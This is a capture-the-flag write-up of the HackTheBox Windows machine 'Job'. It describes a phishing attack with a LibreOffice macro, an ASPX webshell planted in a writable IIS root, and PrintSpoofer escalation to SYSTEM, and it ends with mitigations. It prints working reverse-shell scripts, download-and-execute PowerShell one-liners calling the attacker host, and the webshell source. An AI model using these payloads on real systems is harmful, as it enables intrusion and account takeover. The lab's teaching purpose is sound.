






---

###Pwning "Job" on HackTheBox: From a Fake Job Posting to NT AUTHORITY\SYSTEM
A Medium-difficulty Windows box that starts with a CV lure and ends with a stolen SYSTEM token.

---


## Executive Summary
Job is a Windows machine on HackTheBox. The attack chain is as follows:

* **SMTP Enumeration → Phishing → Macro Foothold** — Enumerate valid usernames via SMTP VRFY, then weaponize a LibreOffice macro (`msf.odt`) using the `openoffice_document_macro` Metasploit module and deliver it by email to `career@job.local`, landing a reverse shell as `jack.black` when the document is opened.
* **Developers Group → Writable Web Root → Webshell** — Identify that `jack.black` belongs to the `JOB\developers` group, which holds write access to `C:\inetpub\wwwroot`. Drop an ASPX webshell into the IIS web root to gain code execution as the IIS application pool identity.
* **SeImpersonatePrivilege → PrintSpoofer → SYSTEM** — Confirm `SeImpersonatePrivilege` is enabled for `iis apppool\defaultapppool`, abuse it with PrintSpoofer to spawn a SYSTEM-level reverse shell and capture both flags.

**Machine Information**

| Detail | Value |
|:--|:--|
| **Machine Name** | Job |
| **IP Address** | 10.129.234.73 |
| **OS** | Windows Server 2022 |
| **Difficulty** | Medium |
| **Domain** | `job.local` |
| **Status** | Retired |

---

## Reconnaissance

I initiate active enumeration with Nmap using a two-step approach: first, a fast full TCP port scan to locate every open port, and second, a targeted service/version and script scan against just those ports.

```shell
hyena@hyena$ nmap -sS -Pn -min-rate 5000 --max-retries 1 -T4 -p- 10.129.234.73
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-11 06:23 +0000
Nmap scan report for 10.129.234.73
Host is up (0.24s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
25/tcp   open  smtp
80/tcp   open  http
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 27.12 seconds
```

```shell
hyena@hyena$ nmap -sV -sC -O -A -T4 -Pn -p 25,80,445,3389,5985 10.129.234.73
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-11 06:26 +0000
Nmap scan report for 10.129.234.73
Host is up (0.26s latency).

PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: JOB, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Job.local
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: JOB
|   NetBIOS_Domain_Name: JOB
|   NetBIOS_Computer_Name: JOB
|   DNS_Domain_Name: job
|   DNS_Computer_Name: job
|   Product_Version: 10.0.20348
|_  System_Time: 2026-07-11T06:26:28+00:00
|_ssl-date: 2026-07-11T06:27:08+00:00; -17s from scanner time.
| ssl-cert: Subject: commonName=job
| Not valid before: 2026-07-10T06:22:04
|_Not valid after:  2027-01-09T06:22:04
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|10|11|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JOB; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -16s, deviation: 0s, median: -17s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-07-11T06:26:29
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   298.36 ms 10.10.14.1
2   298.87 ms 10.129.234.73

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.60 seconds
```

The results confirm a standalone Windows host (not domain-joined) running **hMailServer** on port 25, **IIS 10.0** on port 80, SMB on 445, RDP on 3389, and WinRM on 5985. The website is hosted under the `job.local` domain. I add the host to my resolver so hostname-based requests resolve correctly:

```shell
hyena@hyena$ echo "10.129.234.73 job.local" >> /etc/hosts
```

---

## Port 80 Web Enumeration

I visit the HTTP service on port 80.



The default page reads:

> *"We are looking for developers! Please send your application to career@job.local! We recently switched to using open source products - please send your cv as a libre office document."*

This immediately signals two things: a target email address for phishing, and a strong hint that the intended lure is a **LibreOffice document**. I run a directory brute-force with Gobuster to map the rest of the site:

```shell
hyena@hyena$ gobuster dir -u http://10.129.234.73 -w /usr/share/wordlists/dirb/common.txt -x aspx,html
200 /js/scripts.js
200 /assets/favicon.ico
200 /css/styles.css
200 / (Index.html)
403 /js/
403 /css/
403 /assets/
200 /hello.aspx
301 /aspnet_client/
301 /assets/
301 /css/
301 /js/
```

A `/render/` path also surfaces during enumeration and returns a `400` when probed with an external URL, e.g. `/render/https://www.google.com.aspx`, suggesting an SSRF-style rendering endpoint. I note it as a secondary lead but pursue the more direct phishing route first, given the site's explicit invitation to submit a CV.

---

## SMTP User Enumeration

With `career@job.local` confirmed as a valid mailbox, I enumerate further usernames on the SMTP service using VRFY:

```shell
hyena@hyena$ smtp-user-enum -M VRFY -U /usr/share/wordlists/names.txt -t 10.129.234.73
```

This confirms the domain `job.local`, the `career@job.local` mailbox, and a valid local user, `jack.black` — the eventual recipient/operator of the phishing document on the mail server side.

---

## Initial Access — Phishing with a Malicious ODT Macro

Since the job posting explicitly requests a CV **as a LibreOffice document**, I weaponize an `.odt` file using Metasploit's `openoffice_document_macro` module.



```shell
hyena@hyena$ msfconsole
msf6 > use exploit/multi/misc/openoffice_document_macro
```

The first run fails with a port conflict:

```
[-] Exploit failed [bad-config]: Rex::BindFailed
The address is already in use or unavailable: (10.10.14.80:8081).
```

I move the module's listener to a free port and point the embedded command at a staged payload:

```shell
msf6 exploit(multi/misc/openoffice_document_macro) > set SRVHOST 10.10.14.80
msf6 exploit(multi/misc/openoffice_document_macro) > set SRVPORT 8082
msf6 exploit(multi/misc/openoffice_document_macro) > set cmd "powershell.exe -nop -w hidden -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.80:8081/shell.txt');"
msf6 exploit(multi/misc/openoffice_document_macro) > run
[+] msf.odt stored at /home/kali/.msf4/local/msf.odt
```

The macro's embedded command references `shell.txt`, a PowerShell TCP reverse shell I host separately and point at port `443` (an earlier draft mistakenly pointed it back at `8081`, which I corrected before delivery):

```powershell
function cleanup {
    if ($client.Connected -eq $true) {$client.Close()}
    if ($process.ExitCode -ne $null) {$process.Close()}
    exit
}

# Setup IPADDR
$address = '10.10.14.80'
# Setup PORT
$port = '443'

$client = New-Object system.net.sockets.tcpclient
$client.connect($address,$port)
$stream = $client.GetStream()
$networkbuffer = New-Object System.Byte[] $client.ReceiveBufferSize
$process = New-Object System.Diagnostics.Process
$process.StartInfo.FileName = 'C:\windows\system32\cmd.exe'
$process.StartInfo.RedirectStandardInput = 1
$process.StartInfo.RedirectStandardOutput = 1
$process.StartInfo.UseShellExecute = 0
$process.Start()
$inputstream = $process.StandardInput
$outputstream = $process.StandardOutput
Start-Sleep 1
$encoding = new-object System.Text.AsciiEncoding
while($outputstream.Peek() -ne -1){$out += $encoding.GetString($outputstream.Read())}
$stream.Write($encoding.GetBytes($out),0,$out.Length)
$out = $null; $done = $false; $testing = 0;

while (-not $done) {
    if ($client.Connected -ne $true) {cleanup}
    $pos = 0; $i = 1
    while (($i -gt 0) -and ($pos -lt $networkbuffer.Length)) {
        $read = $stream.Read($networkbuffer,$pos,$networkbuffer.Length - $pos)
        $pos+=$read
        if ($pos -and ($networkbuffer[0..$($pos-1)] -contains 10)) {break}
    }
    if ($pos -gt 0) {
        $string = $encoding.GetString($networkbuffer,0,$pos)
        $inputstream.write($string)
        start-sleep 1
        if ($process.ExitCode -ne $null) {cleanup}
        else {
            $out = $encoding.GetString($outputstream.Read())
            while($outputstream.Peek() -ne -1){
                $out += $encoding.GetString($outputstream.Read())
                if ($out -eq $string) {$out = ''}
            }
            $stream.Write($encoding.GetBytes($out),0,$out.length)
            $out = $null
            $string = $null
        }
    } else {cleanup}
}
```

I stage `shell.txt` over HTTP and stand up a listener for the callback:

```shell
hyena@hyena$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 ...
```

```shell
hyena@hyena$ nc -lvnp 443
listening on [any] 443 ...
```

I email the weaponized document to the address advertised on the site:

```shell
hyena@hyena$ sendemail -s job.local -f "sec@vulnlab.com" -t career@job.local -o tls=no -m "hey pls check my cv" -a msf.odt
Jul 11 07:47:49 kali sendemail[285547]: Email was sent successfully!
```



Shortly after, the target opens the document. LibreOffice executes the embedded macro, which pulls `shell.txt` and runs it, and my listener catches a shell as `jack.black`:

```shell
hyena@hyena$ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.234.73] 57414
Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\LibreOffice\program>whoami
job\jack.black
```



The HTTP server log confirms the payload download that preceded the callback:

```
10.129.234.73 - - [11/Jul/2026 07:48:12] "GET /shell.txt HTTP/1.1" 200 -
```

---

## Enumeration as jack.black

I check group memberships and privileges:

```cmd
C:\Users\jack.black>whoami /all

USER INFORMATION
----------------

User Name      SID                                          
============== =============================================
job\jack.black S-1-5-21-3629909232-404814612-4151782453-1000


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                           Attributes                                        
====================================== ================ ============================================= ==================================================
Everyone                               Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
JOB\developers                         Alias            S-1-5-21-3629909232-404814612-4151782453-1001 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users           Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113                                     Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                                                     


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

`jack.black` is a member of `JOB\developers`. Since IIS is hosting the site on this box, I check what that group can touch on disk:

```cmd
C:\Users\jack.black>icacls C:\inetpub\wwwroot | findstr "developers"
JOB\developers had WRITE access to C:\inetpub\wwwroot
```

`developers` has **write access to the IIS web root** — a direct path to code execution as the web server's application pool identity.

---

## Privilege Escalation — Writable Web Root to Webshell

I drop a minimal ASPX webshell (`cmd.aspx`) that shells out to `cmd.exe`:

```aspnet
<%@ Page Language="C#" AutoEventWireup="true" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e)
{
    string cmd = Request["cmd"];
    if (!string.IsNullOrEmpty(cmd))
    {
        System.Diagnostics.Process process = new System.Diagnostics.Process();
        process.StartInfo.FileName = "cmd.exe";
        process.StartInfo.Arguments = "/c " + cmd;
        process.StartInfo.RedirectStandardOutput = true;
        process.StartInfo.UseShellExecute = false;
        process.StartInfo.CreateNoWindow = true;
        process.Start();
        string output = process.StandardOutput.ReadToEnd();
        Response.Write("<pre>" + output + "</pre>");
    }
}
</script>
```

Using the write access confirmed above, I pull it directly into the web root with `certutil`:

```cmd
C:\Users\jack.black>certutil -urlcache -f http://10.10.14.80:8081/cmd.aspx C:\inetpub\wwwroot\cmd.aspx
C:\Users\jack.black>dir C:\inetpub\wwwroot\cmd.aspx
# File size: 7,323 bytes
```

---

## Getting a Shell as the IIS App Pool Identity

I write a small PowerShell TCP reverse shell (`rev.ps1`) and trigger it through the newly planted webshell:

```powershell
# rev.ps1
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.80',4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
```

```shell
hyena@hyena$ curl "http://10.129.234.73/cmd.aspx?cmd=powershell.exe%20-nop%20-w%20hidden%20-c%20IEX(New-Object%20Net.WebClient).DownloadString('http://10.10.14.80:8081/rev.ps1')"
```

```shell
hyena@hyena$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.234.73] 57429

PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
```



---

## Privilege Escalation to SYSTEM — SeImpersonatePrivilege / PrintSpoofer

I check the token privileges available to the app pool identity:

```cmd
PS C:\windows\system32\inetsrv> whoami /priv
SeImpersonatePrivilege  ← ENABLED!
```

`SeImpersonatePrivilege` is enabled, a classic token-impersonation escalation vector on Windows service accounts. I stage **PrintSpoofer** to abuse it:

```shell
hyena@hyena$ wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
hyena@hyena$ cd ~/Desktop/Job/Exploit
hyena@hyena$ sudo python3 -m http.server 8081
```

The first download attempt fails since the file wasn't yet in the server's working directory:

```
CertUtil: -URLCache command FAILED: 0x80190194
CertUtil: Not found (404).
```

After restarting the server from the correct directory, the download succeeds:

```cmd
PS C:\windows\system32\inetsrv> certutil -urlcache -f http://10.10.14.80:8081/PrintSpoofer64.exe C:\temp\ps.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

I verify the binary works, then use it to spawn a SYSTEM-level PowerShell reverse shell:

```cmd
PS C:\windows\system32\inetsrv> C:\temp\ps.exe -c "whoami"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

```cmd
PS C:\windows\system32\inetsrv> C:\temp\ps.exe -c "powershell -c `$client=New-Object System.Net.Sockets.TCPClient('10.10.14.80',4445);`$stream=`$client.GetStream();[byte[]]`$bytes=0..65535|%{0};while((`$i=`$stream.Read(`$bytes,0,`$bytes.Length))-ne 0){;`$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString(`$bytes,0,`$i);`$sendback=(iex `$data 2>&1 | Out-String );`$sendback2=`$sendback+'PS '+(pwd).Path+'> ';`$sendbyte=([text.encoding]::ASCII).GetBytes(`$sendback2);`$stream.Write(`$sendbyte,0,`$sendbyte.Length);`$stream.Flush()};`$client.Close()"
```

```shell
hyena@hyena$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.234.73] 57438

PS C:\Windows\system32> whoami
nt authority\system
```

For reference, the underlying mechanism PrintSpoofer relies on is the classic named-pipe impersonation trick: create a named pipe, coerce the SYSTEM-privileged spooler service into connecting to it, then call `ImpersonateNamedPipeClient` to steal its token and spawn a process under that identity. A trimmed excerpt of that pattern:

```csharp
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr CreateNamedPipe(
    String lpName, uint dwOpenMode, uint dwPipeMode,
    uint nMaxInstances, uint nOutBufferSize, uint nInBufferSize,
    uint nDefaultTimeOut, IntPtr pipeSecurityDescriptor);

[DllImport("kernel32.dll", SetLastError = true)]
public static extern bool ConnectNamedPipe(IntPtr hHandle, uint lpOverlapped);

[DllImport("Advapi32.dll", SetLastError = true)]
public static extern bool ImpersonateNamedPipeClient(IntPtr hHandle);

protected void SpawnProcessAsPriv(IntPtr oursocket)
{
    string Application = Environment.GetEnvironmentVariable("comspec");
    PROCESS_INFORMATION pInfo = new PROCESS_INFORMATION();
    STARTUPINFO sInfo = new STARTUPINFO();
    SECURITY_ATTRIBUTES pSec = new SECURITY_ATTRIBUTES();
    pSec.Length = Marshal.SizeOf(pSec);
    sInfo.dwFlags = 0x00000101;
    sInfo.hStdInput = oursocket;
    sInfo.hStdOutput = oursocket;
    sInfo.hStdError = oursocket;
    CreateProcessAsUser(DupeToken, Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
    WaitForSingleObject(pInfo.hProcess, (int)INFINITE);
}
```

This is the same named-pipe/token-duplication primitive used by PrintSpoofer, RoguePotato, and similar `SeImpersonatePrivilege` abuse tools — I didn't reimplement it myself; `PrintSpoofer64.exe` handles it end-to-end as shown above.



I collect both flags:

```cmd
C:\>cd C:\Users\jack.black\Desktop

C:\Users\jack.black\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A9B2-0C2A

 Directory of C:\Users\jack.black\Desktop

11/09/2021  09:43 PM    <DIR>          .
04/16/2025  10:48 AM    <DIR>          ..
07/11/2026  06:22 AM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   5,429,432,320 bytes free

C:\Users\jack.black\Desktop>type user.txt
0a016fc84f4c0eb1970***********
```

```cmd
PS C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
6497616365f1ba4c5a98aaa603a8c5f4
```


```
You have solved Job!
Congratulations RavenHex

#435 Machine Rank
11 Jul 2026 Pwn Date
Retired Machine State
₹650 XP Earned
```

Full SYSTEM compromise achieved.

---

## Final Results

| Flag | Status |
|:--|:--|
| **User Flag** (jack.black) | ✅ Captured |
| **Root Flag** (Administrator / SYSTEM) | ✅ Captured (`6497616365f1ba4c5a98aaa603a8c5f4`) |

```
Nmap → Web Enumeration (career@job.local, CV lure) → SMTP User Enum (jack.black)
   → Malicious ODT (openoffice_document_macro) → Phishing Email → Macro Shell (jack.black)
   → JOB\developers Group → Writable C:\inetpub\wwwroot → ASPX Webshell
   → PowerShell Reverse Shell → iis apppool\defaultapppool
   → SeImpersonatePrivilege → PrintSpoofer → NT AUTHORITY\SYSTEM
```

---

## Mitigations & Security Recommendations

1. **Harden Against Macro-Based Phishing**: Disable macro auto-execution in LibreOffice/OpenOffice deployments, or route all inbound attachments through a sandboxing/detonation service before they reach end users.
2. **Restrict SMTP User Enumeration**: Disable or rate-limit the `VRFY`/`EXPN` commands on hMailServer (or any SMTP service) to prevent trivial username harvesting.
3. **Avoid Publishing Internal Usernames or Workflow Hints**: The public job posting revealing the expected document format (ODT) and a direct submission address made the phishing pretext far more convincing than necessary.
4. **Apply Least-Privilege to the `developers` Group**: Group membership should never grant write access to a production web root (`C:\inetpub\wwwroot`). Separate development/staging write access from the live IIS site, and deploy changes through a controlled CI/CD pipeline instead.
5. **Monitor and Alert on Web Root File Changes**: File integrity monitoring on `C:\inetpub\wwwroot` would have flagged the webshell (`cmd.aspx`) the moment it was written.
6. **Restrict or Remove SeImpersonatePrivilege from Service Accounts**: Where the IIS application pool identity does not need it, strip `SeImpersonatePrivilege`, or run application pools under a virtual/managed service account with the minimum privileges required, and deploy mitigations against known impersonation tools (PrintSpoofer, RoguePotato, etc.).
7. **Segment and Monitor Outbound Traffic**: Reverse shells over uncommon ports (443, 4444, 4445) from a web server host to an external IP should trigger egress-filtering alerts.
8. **Patch and Monitor LibreOffice Deployments**: Keep office suites used for document handling patched, and log/alert on `soffice`/`LibreOffice` spawning `powershell.exe` or `cmd.exe`, a strong indicator of macro abuse.
